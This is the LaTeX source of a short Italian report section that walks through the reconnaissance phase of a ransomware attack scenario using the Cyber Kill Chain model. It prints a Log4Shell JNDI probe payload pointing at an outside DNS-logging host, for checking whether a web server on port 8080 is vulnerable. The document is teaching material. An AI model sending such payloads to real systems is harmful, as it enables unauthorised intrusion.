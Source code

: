 \documentclass[a4paper, 12pt]{article}
\begin{document}
\subsection{Cyber Kill Chain dell'attacco}
L'obiettivo principale dell'attaccante è eseguire un malware sulla macchina della vittima con il fine di corrompere i file presenti in memoria e chiedere un riscatto per il ripristino di questi.
Si descrive ora lo svolgimento dell'attacco mediante il modello Cyber Kill Chain.


\subsubsection{Reconnaissance}
Nella prima fase, l’attaccante interagisce con gli host e con la rete target alla ricerca di un endpoint in ascolto su qualsiasi protocollo che permetta di inviare il payload malevolo (\textbf{Active Scanning}).
Una volta individuata l'applicazione web sulla porta 8080 alla quale inviare richieste HTTP, è opportuno assicurarsi che questa sia effettivamente vulnerabile a Log4Shell.

Il modo più semplice per rilevare se un endpoint remoto è vulnerabile, consiste nell'attivare una query DNS. 
Utilizzando un logger DNS online (ad esempio \href{http://dnslog.cn}{dnslog}), è possibile generare un nome di dominio ed inserirlo nell'URL JNDI di un payload di prova.
\begin{center}
    \verb!${jndi:ldap://fchcia.dnslog.cn/a}!
\end{center}
A questo punto è necessario inviare il payload attraverso una richiesta HTTP,  l'exploit farà sì che il server tenti di recuperare dei dati in remoto, permettendo di rilevare una eventuale attivazione della vulnerabilità (figura \ref{fig:dnslog}.
\`E possibile automatizzare l'operazione attraverso strumenti come i vulnerability scanner reperibili online.

\begin{figure}
\centering
\includegraphics[width=1\textwidth]{img/dnslog.png}
\caption{Query DNS effettuate tramite JNDI}
\label{fig:dnslog}
\end{figure}
\end{document}
